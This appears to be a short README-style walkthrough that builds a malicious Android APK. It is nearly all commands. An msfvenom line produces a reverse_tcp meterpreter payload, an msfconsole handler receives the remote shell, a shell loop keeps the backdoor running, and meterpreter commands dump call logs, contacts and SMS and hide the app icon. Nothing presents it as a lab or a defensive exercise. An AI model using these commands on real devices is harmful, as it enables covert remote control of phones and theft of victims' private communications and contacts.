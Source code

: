 
#### Generating Milicious APK

```console
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.5 LPORT=4444 R > /root/Desktop/pentest.apk
```

#### Now, lets set-up a Listener:
```console
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.0.4
exploit
```

#### Making Backdoor persistant
```console
while true;do am start --user 0 -a android.intent.action.MAIN -n com.metasploit.stage/.MainActivity;sleep 10;done
```

#### Some Basic Info Dump
```console
dump_calllog
dump_contacts
dump_sms
hide_app_icon
```

